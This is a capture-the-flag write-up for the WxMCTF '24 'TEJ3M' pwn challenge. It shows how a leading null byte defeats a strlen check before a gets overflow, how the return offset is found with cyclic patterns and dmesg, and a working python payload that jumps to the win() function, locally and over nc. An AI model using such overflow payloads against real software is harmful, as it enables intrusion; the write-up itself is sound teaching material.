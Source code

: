 # WxMCTF '24 Pwn 2 - TEJ3M
> Here's my TEJ3M assignment! We're learning how to use C, and I think it's pretty easy! My teacher tells us `gets` is unsafe, but I think he doesn't know how to error trap!

Because a check has been put in place, the user is not able to use a buffer overflow in order to jump to the desired code.  However, since `strlen()` determines the length of a string by reading until a NULL byte, and `gets()` does not stop reading at the NULL byte, we can insert a null byte before the input to exploit.  

First, I used `pwntools` to generate a sequence of 1000 characters.  At the time, I could not find any quick way to insert a null character at the beginning, so I put it into a file: `pwn cyclic 1000 > input`

Then, I inserted a null byte in the beginning of the file: `printf '\x00' | cat - input > newinput`.

Afterward, I piped `newinput` into the program: `./assgn1_2o3BvZ6 < newinput`

Reading the `dmesg` logs, I found this line:

```
[44930.663093] assgn1_2o3BvZ6[164177]: segfault at 61616c61 ip 0000000061616c61 sp 00000000ffbe5560 error 14 in libc.so.6[ef1bc000+1f000] likely on CPU 9 (core 3, socket 0)
```

The address it tried to jump to can be translated into ascii as `aala`.  Thus, I used `grep` to find the offset of the subsequence: `grep --byte-offset --only-matching --text "aala" newinput`
```
43:aala
```

Thankfully, the program was compiled with `-no-pie`, meaning that I can get the address of the `win()` function from `objdump`: `objdump -D assgn1_2o3BvZ6 | grep win`
```
08049216 <win>:
```

With all this knowledge, I used a simple python inline command to generate an input:
`python3 -c 'import sys; sys.stdout.buffer.write(b"\x00" + b"A" * 43 + b"\x16\x92\x04\x08")' | ./assgn1_2o3BvZ6`

However, the remote servers seem to require a newline at the end:
`python3 -c 'import sys; sys.stdout.buffer.write(b"\x00" + b"A" * 43 + b"\x16\x92\x04\x08\x0a")' | nc ... ...`

And that yields the flag: `wxmctf{1_th1nk_1_f41led...}`
